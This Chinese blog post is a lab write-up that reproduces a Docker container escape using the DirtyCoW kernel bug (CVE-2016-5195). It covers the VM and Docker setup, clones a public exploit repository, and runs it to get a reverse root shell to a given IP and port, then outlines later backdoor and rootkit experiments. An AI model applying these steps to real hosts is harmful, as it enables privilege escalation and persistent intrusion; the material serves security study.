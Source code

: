 ```yaml
---
title: CVE-2016-5195 实验 | DirtyCoW与Docker逃逸
category: Sec
---
```


## CVE-2016-5195 实验 | DirtyCoW与Docker逃逸

### 0x00 前述

最近出比赛题用到Docker，于是就想到了脏牛火的那段时间有一个利用它做Docker逃逸的PoC。再一看，发现和`vdso`有关，恰好最近研究溢出也遇到了这个东西（在我的[另一篇博文](http://aptx4869.me/ctf/2017/09/08/Overflow.html)中）。

### 0x01 环境搭建

**VM**

手头有一个`ubuntu-14.04.4-desktop-amd64.iso`就直接拿来开新的VM了（我用`PoC`验证过是存在脏牛漏洞的）。之前也一直想过这个问题：研究漏洞需要老的内核，官网上好像不好直接下老的。如果恰好没有旧的VM或者镜像，可以考虑装一个新的VM然后做一下内核降级（我没有做），可以参考[这里](http://blog.csdn.net/hsluoyc/article/details/51075230)。

另外就是更新源的问题。我把`sources.list`换成了上交的源，否则可能会很慢。

**Docker**

Docker的安装可以参考[官方文档](https://docs.docker.com/engine/installation/linux/ubuntu/#/prerequisites)。不过也可以直接把官方文档里的步骤写成下面这个脚本（不保证未来能用）：

```bash
sudo apt-get update

sudo apt-get install -y \
        linux-image-extra-$(uname -r) \
        linux-image-extra-virtual

sudo apt-get install -y \
        apt-transport-https \
        ca-certificates \
        curl \
        software-properties-common

curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add -

sudo add-apt-repository \
        "deb [arch=amd64] https://download.docker.com/linux/ubuntu \
        $(lsb_release -cs) \
        stable"

sudo apt-get update
sudo apt-get install -y docker-ce
```

之后似乎非root用户不能用`docker ps`，解决一下：

```bash
sudo groupadd docker
sudo gpasswd -a ${USER} docker
sudo service docker restart
```

退出当前用户重新登陆一下就好。

**Ubuntu Image**

国外仓库下载比较慢，我就直接从国内Docker镜像仓库下载了。感谢国内仓库。

```
docker pull registry.docker-cn.com/library/ubuntu:14.04
```

**docker-compose**

之后需要下载`docker-compose`。我发现官网给出的使用`curl`下载的命令并不好用，下载不稳定时常速度为0。我是在外边用迅雷下完然后拷进去的。下载地址是：

```
https://github.com/docker/compose/releases/download/1.17.1/docker-compose-Linux-x86_64
```

```bash
sudo cp ~/dirtycow/docker-compose-Linux-x86_64 /usr/local/bin/docker-compose
sudo chmod +x /usr/local/bin/docker-compose
```

**Exp**

再把逃逸程序从Github上`clone`下来（其实可以跳过这步，因为后面的`Dockerfile`里有这一步）：

```bash
git clone https://github.com/gebl/dirtycow-docker-vdso.git
```

最后看一下目前的环境：

```
uname -a
    Linux br-virtual-machine 4.2.0-27-generic #32~14.04.1-Ubuntu SMP Fri Jan22 
    15:32:26 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux

docker -v
    Docker version 17.09.0-ce, build afdb6d4

docker-compose -v
    docker-compose version 1.17.1, build 6d101fb
```

一切就绪。建议到这里对VM做一个快照。

### 0x02 实验

**创建镜像/运行容器**

由于我们使用了国内的Docker仓库，所以也许需要在`Dockerfile`下稍微改动一下。这里同样涉及到更新源的问题。同样地，我在`Dockerfile`把源先给更换成了上海交通大学的源。

```dockerfile
FROM registry.docker-cn.com/library/ubuntu:14.04

RUN mv /etc/apt/sources.list /etc/apt/sources.list.bak
ADD ./sources.list /etc/apt/
```

```bash
docker-compose run dirtycow /bin/bash
```

建议到这里也可以对VM做一个快照。这个Docker逃逸只能做一次，成功后退出`root shell`再次执行攻击时会失败，具体原因我还没有深入了解。

进入以后执行：

```bash
cd /
./runnit.sh
cd dirtycow-vdso
./0xdeadbeef 172.18.0.2:10000
```

由于最后获得的事实上是一个反弹shell，所以要给出反弹的IP和端口。端口可以随意设置，IP可以用`ifconfig`查看。我对Docker的网络机制不了解，以后记得去研究一下。

**注意，到目前为止，以上操作均在普通用户权限下进行（我这里的普通用户叫做`br`），也没有任何的`sudo`！**

看一下截图：

![]({{ site.url }}/images/dirtycow/dirtycow-docker-0.png)

我们在VM中以`root`权限创建`/root/flag`并写入

```bash
flag{Welcome_2_the_real_world}
```

![]({{ site.url }}/images/dirtycow/dirtycow-docker-1.png)

下面看一下Docker逃逸成功的效果：

![]({{ site.url }}/images/dirtycow/dirtycow-docker-2.png)

下一步可以考虑把逃逸实验和`Pwn`的实验套在一起进行测试。即，模拟外界攻击者，先通过缓冲区溢出获得容器的普通用户`shell`。然而经过`Docker环境检测`，攻击者发现自己处在一个容器中。于是，攻击者再通过Docker逃逸获取模拟真实服务器的`root shell`。

再下一步，可以做一些`post penetration`工作。在模拟真实服务器上安装后门，维持访问。这一阶段的实验可以分为两个子实验：一是安装简单的后门，如“一句话后门等”；二是安装`rootkit`，这一子实验中又可以对`用户层rootkit`安装和`内核层rootkit`安装分别进行测试。

今天先到这里，日后把后几个实验补上。

### 0x03 原理

时间所限，暂时略去不表。未来补上。

### 0x04 参考

- [脏牛漏洞-Docker逃逸POC(dirtycow-vdso)代码分析](http://blog.csdn.net/enjoy5512/article/details/53196047)
- [【技术分享】利用Dirty Cow实现docker逃逸（附演示视频）](http://bobao.360.cn/learning/detail/3168.html)
- [github: scumjr/dirtycow-vdso](https://github.com/scumjr/dirtycow-vdso)
- [github: gebl/dirtycow-docker-vdso](https://github.com/gebl/dirtycow-docker-vdso)